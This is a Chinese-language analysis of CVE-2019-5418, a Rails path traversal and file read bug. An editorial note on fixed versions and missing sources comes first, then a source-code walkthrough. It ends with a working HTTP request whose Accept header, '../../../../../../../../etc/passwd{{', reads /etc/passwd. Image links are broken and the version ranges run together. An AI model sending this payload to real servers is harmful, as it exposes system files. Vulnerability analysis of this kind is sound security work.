



## 核对与使用边界

- 明确更正：CVE-2019-5418 首修复按维护分支为 4.2.11.1、5.0.7.2、5.1.6.2、5.2.2.1、6.0.0.beta3；这些修复版本本身不能列为受影响。原多个“小于”范围应分别绑定分支，不能全局 OR。
- 触发需要相关 `render file:` 行为与恶意 Accept 的组合；任意 Rails URL 和读取文件原语都不自动证明代码执行。

核对来源：[Rails 官方安全发布](https://rubyonrails.org/2019/3/13/Rails-4-2-5-1-5-1-6-2-have-been-released)

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：列&lt;6beta3/&lt;5.2.2.1/&lt;5.1.6.2/&lt;5.0.7.2但缺分支起点；源码5.2.1

代码与实验材料：TemplateRenderer→PathSet→PathResolver→query完整源码摘录，具体Accept请求，结果图

来源证据范围：未给官方公告/源码commit或原文链接

- **结论使用边界（1）**：多分支范围需要结构化；依据：四个小于范围连写且无分支限定，容易按全局OR错误推导。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **证据待核（2）**：图片残串和来源缺失；依据：各图后资源路径重复，缺Rails官方补丁来源。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

（CVE-2019-5418）Ruby on Rails 路径穿越与任意文件读取漏洞
=========================================================

一、漏洞简介
------------

在控制器中通过`render file`形式来渲染应用之外的视图，且会根据用户传入的Accept头来确定文件具体位置。我们通过传入`Accept: ../../../../../../../../etc/passwd{{`头来构成构造路径穿越漏洞，读取任意文件。

二、漏洞影响
------------

Ruby on Rails \< 6.0.0.beta3Ruby on Rails \< 5.2.2.1Ruby on Rails \< 5.1.6.2Ruby on Rails \< 5.0.7.2

三、复现过程
------------

### 漏洞分析

在控制器中通过`render file`形式来渲染应用之外的视图，因此在
actionview-5.2.1/lib/action\_view/renderer/template\_renderer.rb:22
中会根据 `options.key?(:file)`，调用`find_file`来寻找视图。

    module ActionView
      class TemplateRenderer < AbstractRenderer #:nodoc:
        # Determine the template to be rendered using the given options.
          def determine_template(options)
            keys = options.has_key?(:locals) ? options[:locals].keys : []
            if options.key?(:body)
              ...
            elsif options.key?(:file)
              with_fallbacks { find_file(options[:file], nil, false, keys, @details) }
            ...
          end
    end

`find_file`代码如下：

    def find_file(name, prefixes = [], partial = false, keys = [], options = {})
        @view_paths.find_file(*args_for_lookup(name, prefixes, partial, keys, options))
    end

继续跟入`args_for_lookup`函数，用于生成用于查找文件的参数，当其最终返回时会把payload保存在`details[formats]`中：RubyonRails路径穿越与任意文件读取漏洞/media/rId25.jpg)

此后回到`@view_paths.find_file`并跟入会进入
actionview-5.2.1/lib/action\_view/path\_set.rb：

    class PathSet #:nodoc:
        def find_file(path, prefixes = [], *args)
          _find_all(path, prefixes, args, true).first || raise(MissingTemplate.new(self, path, prefixes, *args))
        end
        private
        # 注，这里的 args 即前面args_for_lookup生成的details
            def _find_all(path, prefixes, args, outside_app)
                prefixes = [prefixes] if String === prefixes
                prefixes.each do |prefix|
                paths.each do |resolver|
                    if outside_app
                    templates = resolver.find_all_anywhere(path, prefix, *args)
                    else
                    templates = resolver.find_all(path, prefix, *args)
                    end
                    return templates unless templates.empty?
                end
                end
                []
            end

由于要渲染的视图在应用之外，因此跟入`find_all_anywhere`

    def find_all_anywhere(name, prefix, partial = false, details = {}, key = nil, locals = [])
        cached(key, [name, prefix, partial], details, locals) do
        find_templates(name, prefix, partial, details, true)
        end
    end

跳过`cached`部分，跟入`find_templates`，这里正式根据条件来查找要渲染的模板：

    # An abstract class that implements a Resolver with path semantics.
    class PathResolver < Resolver #:nodoc:
        EXTENSIONS = { locale: ".", formats: ".", variants: "+", handlers: "." }
        DEFAULT_PATTERN = ":prefix/:action{.:locale,}{.:formats,}{+:variants,}{.:handlers,}"

        ...

        private
            def find_templates(name, prefix, partial, details, outside_app_allowed = false)
                path = Path.build(name, prefix, partial)
                # 注意 details 与 details[:formats] 的传入
                query(path, details, details[:formats], outside_app_allowed)
            end

            def query(path, details, formats, outside_app_allowed)
                query = build_query(path, details)
                template_paths = find_template_paths(query)
                ...
                end
            end

build\_query后如下：RubyonRails路径穿越与任意文件读取漏洞/media/rId26.jpg)

利用`../`与前缀组合造成路径穿越，利用最后的`{{`完成闭合，经过File.expand\_path解析后组成的query如下:

    /etc/passwd{{},}{+{},}{.{raw,erb,html,builder,ruby,coffee,jbuilder},}

最后`/etc/passwd`被当成模板文件进行渲染，最后造成了任意文件读取。

### 漏洞复线

访问http://www.0-sec.org:3000/robots可见，正常的robots.txt文件被读取出来。

利用漏洞，发送如下数据包，读取`/etc/passwd`：

    GET /robots HTTP/1.1
    Host: www.0-sec.org:3000
    Accept-Encoding: gzip, deflate
    Accept: ../../../../../../../../etc/passwd{{
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close

RubyonRails路径穿越与任意文件读取漏洞/media/rId28.png)
